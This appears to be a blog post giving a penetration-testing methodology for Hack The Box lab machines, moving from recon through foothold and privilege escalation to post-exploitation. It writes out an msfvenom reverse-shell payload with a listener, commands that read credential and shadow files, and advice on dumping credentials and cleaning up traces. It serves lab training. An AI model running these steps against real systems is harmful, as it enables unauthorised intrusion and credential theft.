 ```yaml
---
title: "Methodologies"
date: 2025-06-28 14:42:00 +0500
categories: [Methodologies]
tags: [HTB]
---
```


## 1. Reconnaissance (Enumeration)

### Objective:

Identify open services, gather information about the target system, and uncover potential attack vectors.

### Tools & Techniques:

#### Basic Network Scanning

```bash
nmap -sC -sV -oN nmap/initial <target-ip>
```

* `-sC`: Run default scripts
* `-sV`: Version detection
* `-oN`: Output to file

#### Full Port Scan (for deeper service discovery)

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap/allports <target-ip>
```

* `-p-`: All 65535 ports
* `--min-rate`: Speed up the scan

#### Targeted Service Scanning

After identifying services:

* **HTTP**: `nikto`, `gobuster`, `feroxbuster`, `whatweb`, `wpscan`
* **SMB**: `enum4linux`, `smbclient`, `crackmapexec`
* **FTP**: Anonymous login, `nmap --script ftp*`
* **SSH**: Banner grabbing, user bruteforce with `hydra`, check for weak keys
* **DNS**: `dig`, `nslookup`, `dnsrecon`
* **SNMP**: `onesixtyone`, `snmpwalk`

#### Directory/File Enumeration

```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,txt,html
```

#### Web Tech Stack & Analysis

* `whatweb`, `wappalyzer`, `curl -I`
* Manually browse with **Burp Suite** or **ZAP Proxy**

#### /etc/hosts

Edit `/etc/hosts` file to create hosts entry and tinker with the web interface.

```bash
sudo vim /etc/hosts
10.10.10.150 <box_name>.htb
```

---

## 2. Foothold (Initial Access)

### Objective:

Exploit a vulnerability or misconfiguration to gain low-level access (usually a user shell).

### Techniques & Tools:

#### Web Exploitation

* **Check CMS**: Use `wpscan`, `joomscan`
* **Upload forms, RCE, LFI, SQLi**: Use `Burp Suite`, `sqlmap`
* **Authenticated functionality**: Use `ffuf`/`wfuzz` to fuzz
* **Exposed Git repos**: Download `.git` and extract

#### Exploits

* Search for public exploits:

  ```bash
  searchsploit <service/version>
  ```

  Or use `exploitdb`, `github`, `CVE` search

* Use `Metasploit` for known vulnerable services (optional if allowed)

#### Reverse Shell

Generate a reverse shell payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f elf > shell.elf
python3 -m http.server 80   # to host payload
```

Catch it with:

```bash
nc -lvnp 4444
```

---

## 3. Privilege Escalation (Root)

### Objective:

Elevate privileges from a foothold user to `root` or `NT AUTHORITY\SYSTEM`.

### Tools & Techniques:

#### Manual Enumeration

Run the following script from your foothold:

```bash
linpeas.sh, linenum.sh, lse.sh (for Linux)
winPEASx64.exe, PowerUp.ps1 (for Windows)
```

Or manually check:

* **SUID binaries**: `find / -perm -4000 2>/dev/null`
* **Cron jobs**: `cat /etc/crontab`, `/etc/cron.*`
* **Scheduled tasks (Windows)**: `schtasks /query /fo LIST /v`
* **Misconfigured services**: `systemctl list-units --type=service`
* **Environment variables**: `env`, `PATH` issues

#### Kernel Exploits

Check kernel version:

```bash
uname -a
```

Search for privilege escalation:

```bash
searchsploit linux kernel <version>
```

#### Password Reuse & Creds

* Check `/etc/passwd`, `/etc/shadow`, saved credentials in `.bash_history`, scripts, config files
* Try `sudo -l`

#### Exploiting Sudo Rights

```bash
sudo -l
```

Use [GTFOBins](https://gtfobins.github.io/) or [LOLBAS](https://lolbas-project.github.io/) for binaries you can exploit with sudo privileges.

---

## 4. Post Exploitation

* Dump credentials
* Lateral movement if applicable (less common on HTB standalone)
* Cleanup traces if needed

---

## Tool Summary Table

| Phase             | Tools                                                                               |
| ----------------- | ----------------------------------------------------------------------------------- |
| Recon             | `nmap`, `gobuster`, `feroxbuster`, `whatweb`, `enum4linux`, `smbclient`, `snmpwalk` |
| Foothold          | `searchsploit`, `msfvenom`, `sqlmap`, `Burp`, `wpscan`                              |
| Priv. Escalation  | `linpeas`, `winPEAS`, `pspy`, `sudo -l`, `GTFOBins`                                 |
| Post Exploitation | `hashdump`, `netstat`, `ss`, `history`, `creds`                                     |

## Resources
For active directory/window boxes:
https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg

For encrypted/encoded passwords:
https://gchq.github.io/CyberChef/


---
